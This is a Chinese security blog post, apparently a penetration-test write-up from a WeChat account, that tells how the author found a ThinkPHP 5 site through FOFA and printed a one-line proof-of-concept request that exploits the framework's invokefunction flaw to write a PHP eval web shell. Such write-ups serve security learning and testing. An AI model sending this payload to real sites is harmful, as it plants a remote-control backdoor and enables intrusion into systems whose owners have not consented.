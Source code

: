 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/VSXim-CVk7jjtyPe_mdw5w)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：北美第一突破手

本文字数：2300

阅读时长：20 分钟

附件 / 链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于 WgpSec 原创奖励计划，未经许可禁止转载

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzDI7TYxjRQj9kbibLyo0N0CuSmdw5YVsFXwO42FeibKES5iaLMTOYr9YibfdbZCE1UPZectA0IzwJV0TQ/640?wx_fmt=jpeg)

本次文章运气成分，希望表哥们每天也能高危拿到手软

  

**_前言_**

  

        天渐渐冷了，和小李走在街头，一阵风吹来，他紧了紧衣服。“你说，天那么冷了，今年我们会不会见到雪，我还没和你一起看过雪呢哈哈哈”。我还没开口，电话响了起来，我拿起一看，是号码是刘哥的，回想当年和刘哥还在教室一起玩耍的日子，那时候我们都还没接触安全，也不知道未来是个啥，时间过的很快，如今他已经在渗透岗干了几年了，还是那么点微薄的工资，家里还有一个老母亲，生活苦啊。我叹了口气，接起了电话。

        “强哥发生么事了？”，我说 “怎么回事”，他给我发了几张截图，我一看，哦原来是昨天，有两个客户找到刘哥，他们说，额有一个说是，快过年了，您能不能帮我们测试一下网站，帮我们测试一下漏洞，刘哥说不行，这两天事情太多了，于是刘哥就找到了我，我说行。聊了一会儿就挂了电话。

一、

**_外网打点_**

刘哥把主站给了我以后，我在 FOFA 上找到了几个资产，在资产随意测试一下：  

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDPUichv5o29DgG3zyickalXouhsS5nUvohh1eaXBWicvCoHiab3aLic0qT6EQPnLJqTpZx4q4ZuibcaeoQ/640?wx_fmt=png)

一个一个看了一下，在一个网页下随便加了个单引号，本来想测试看看又没啥注入的，结果给我报了个错：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDPUichv5o29DgG3zyickalXokictxicLBjxcZKTAgcZibNzkyMZOdkia9KwgWBY94XZDAzf66jg8ooU4Dg/640?wx_fmt=png)

好家伙，经典的 TP5 了，这个版本存在一个前台 getshell 的漏洞，

POC

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][1]=<?php eval($_POST[nmsl]);?> # 写入shell
```
